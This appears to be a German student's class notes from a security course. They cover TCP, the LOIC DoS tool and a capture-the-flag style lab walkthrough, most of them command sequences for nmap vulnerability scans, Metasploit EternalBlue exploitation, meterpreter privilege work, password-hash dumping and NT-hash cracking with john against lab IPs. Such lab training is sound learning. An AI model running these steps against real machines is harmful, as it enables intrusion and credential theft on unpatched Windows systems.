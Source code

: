 # **Mitschrift**
#### Datum: 29.04.2020
### **Thema: gesetzliche Angelegeneheiten**
[Artikel Zur Strafe heise.de](https://www.heise.de/ix/artikel/Zur-Strafe-1892408.html?artikelseite=&view=)

---
### **Thema: TCP** 
![img](https://upload.wikimedia.org/wikipedia/commons/thumb/9/98/Tcp-handshake.svg/1024px-Tcp-handshake.svg.png)

![img2](https://2.bp.blogspot.com/-Q1OvitIDVFE/T9opuETUwcI/AAAAAAAACB4/T1TaXfGxj94/s1600/Low-Orbit-Ion-Cannon.png)


- Ist ein "**nicht legales** Tool" für Dos-Angriffe **"Benutzung auf eigene Gefahr"**
[![IMAGE ALT TEXT](https://tse2.mm.bing.net/th?id=OIP.szMmUNZjK6gT6qrs8uhk9QHaD4&pid=Api)](https://youtu.be/Bbrkc7AXtKg "Video Title")
- Tutorial 
---

### **Sonnleiter Era**
 ``` 
- sudo openvpn exotechly.ovpn &
- ip a
- 10.9.41.189
- nmap 10.10.125.160 | tee nmap-standard 
- nmap --script vuln -p 135,139,445 10.9.41.189 
  - um herauszufinden ob es sich um eine Windows Maschine handelt 
- nmap --script vuln -p 135,149,445 10.10.227.183 |tee nmap-vuln
 ```
# Zweite Session 

```
1. nmap -sV -sC --script vuln -oN blue.nmap 10.10.137.78
2. msfconsole
3. search ms17
4. search eternal
5. use 3 
6. show options
7. set rhosts 10.10.73.63
=> remote host (target)
8. run 
9.C:\Windows\system32>
Optional
set rhots 10.10.201.164
run
exploit
show options
set LPORT 4445
```
## Task 3
```
1. use post/multi/manage/shell_to_meterpreter
2. show options
3. set session 1
4. run 
5. session 
6. sessions 
=> wir sollten jetzt eine 2 Session haben. 
7. sessions -i 2
=> Startet eine Interaktion 
8. getuid
=> NT AUTHORITIY\SYSTEM
9. shell
10. whoami
11. strg + z
12. ps
=> spoolsv.exe, hängt sich an diesen Prozessor, x64, NT AUTHORITY\SYSTEM
13. migrate (Prozessid)
14. getuid
15. hashdump
=> copy key vom john
16. echo "john"
17. john jon.hash --format=NT --wordlist=/opt/rockyou.txt
18. 


